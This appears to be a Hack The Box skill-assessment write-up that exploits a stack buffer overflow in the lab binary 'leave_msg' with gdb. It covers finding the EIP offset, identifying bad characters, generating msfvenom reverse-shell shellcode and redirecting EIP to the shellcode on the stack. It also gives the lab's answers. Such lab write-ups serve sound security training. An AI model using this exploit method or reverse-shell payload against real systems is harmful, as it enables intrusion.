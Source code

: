 HTB Skill Assessment

## **Filetype of `leave_msg`**

To determine filetype of file, we can use following command.

```
file leave_msg
```


![](p/1.png)


**Answer: ELF 32-bit**

To notes:
* Probably we work with x86 architecture

## **Testing for buffer overflow vulnerability**

Now we will check if program is vulnerable to buffer overflow, in contrary to previous CTFs, here we will use GNU Debugger (gdb).

Let's start debugging with command:

```
gdb -q leave_msg
```

Now we can try to overflow the buffer with some garbage data, for example we can use python to do this. It is worth noting that we used 2100 characters.

```
(gdb) run $(python -c "print('\x55'*2100)")
```

As a result we get segmentation fault. Debugger informs us that we have overwritten the EIP.

![](p/2.png)

**So, `leave_msg` is vulnerable to buffer overflow.**

## **Finding offset**

Now we will focus on finding offset. Firstly, we can use `pattern_create.rb` tool which is part of Metasploit framework with 2100 length (as a parameter).

![](p/3.png)

Let's use this output to fuze our vulnerable program.
```
(gdb) run $(python -c "print('<OUTPUT from pattern create>')")
```


![](p/4.png)



Now the EIP is 0x37714336, we can use `pattern_offset.rb` to determine the offset.


![](p/5.png)


**How many bytes in total must be sent before reaching EIP? 2060.**


## **Taking control of EIP**

In future we will try to exploit that vulnerability to gain some root, so we need to determine the length of shellcode, we can assume that it will be 150 byes. It can be useful to insert some no operation instruction (NOPS) before our shellcode begins so that it can be executed cleanly.

```
    Buffer = "\x55" * (2060-100-150-4) = 1806
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4
```

In result of exploitation we should get EIP: "\x66\x66\x66\x66".

### **Identifying bad chars**

However, before serious exploitation we need to specify bad characters. Now instead of shellcode we will provide the list of bad chars.

```
    Buffer = "\x55" * (2060-100-256-4) = 1700
    CHARS = "\x00\x01\x02..." // length is 256
    EIP = "\x66" * 4'
```
Before next steps, let's take a look at main function, in gdb use:

```
(gdb) disas main
```

In the output we can observe interesting call to `leavemsg` function. Let's put a breakpoint at it.

![](p/6.png)

Now let's exploit that program with the following command:

```
(gdb) run $(python -c 'print("\x55"*1700 + "\x00\x01\x02..." + "\x66"*4)')
```

Now take a look into memory using:

```
(gdb) x/2000xb $esp+2000
```

![](p/7.png)

We can see that there is not null byte ("\x00") so this is our first bad char. No we need to repeat the whole process.

```
    Buffer = "\x55" * (2060-100-255-4) = 1701
    CHARS = "\x01\x02..." // length is 255
    EIP = "\x66" * 4'
```

![](p/8.png)


Now we can see there is no "\x09". Note it and let's go further.

```
    Buffer = "\x55" * (2060-100-254-4) = 1702
    CHARS = "\x01\x02..." // length is 254
    EIP = "\x66" * 4'
```


![](p/9.png)


Now there is no "\x0a". Note it and let's go further.

```
    Buffer = "\x55" * (2060-100-253-4) = 1703
    CHARS = "\x01\x02..." // length is 253
    EIP = "\x66" * 4'
```


![](p/10.png)


Now there is no "\x20". After next iteration we can't see any more bad chars.


**So identified bad chars are: \x00\x09\x0a\x20**

### **Generating shellcode**

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

In result we get shellcode which length is 95 bytes.

```
    Buffer = "\x55" * (2060-100-95-4) = 1861
    NOPs = "\x90" * 100
    Shellcode = <shellcode generated by msfvenom>
    EIP = "\x66" * 4
```

Now explot it with:

```
(gdb) run $(python -c 'print("\x55"*1861 + Shellcode + "\x66"*4)')
```

Let's take a look at memory dump again:


![](p/11.png)


Below the marked line we have our shellcode, let's write that address **(0xffffd6dc)** - I'm aware that it is some space before the shellcode but it is on purpouse - we should give some time to program to respond correctly. This address will refer to our EIP.

```
    Buffer = "\x55" * (2060-100-95-4) = 1861
    NOPs = "\x90" * 100
    Shellcode = <shellcode generated by msfvenom>
    EIP = "\xdc\xd6\xff\xff"
```


### **Checking size of stack (HTB question)**


Use the following command to check size of stack:

```
(gdb) info proc all
```

![](p/12.png)

**Answer: 0x22000**


## **Gaining flag**


All what we have to do is to set listener and use our payload - exploit program.



![](p/13.png)



![](p/14.png)


**Answer: FLAG - everyone on HTB has its own unique flag**.

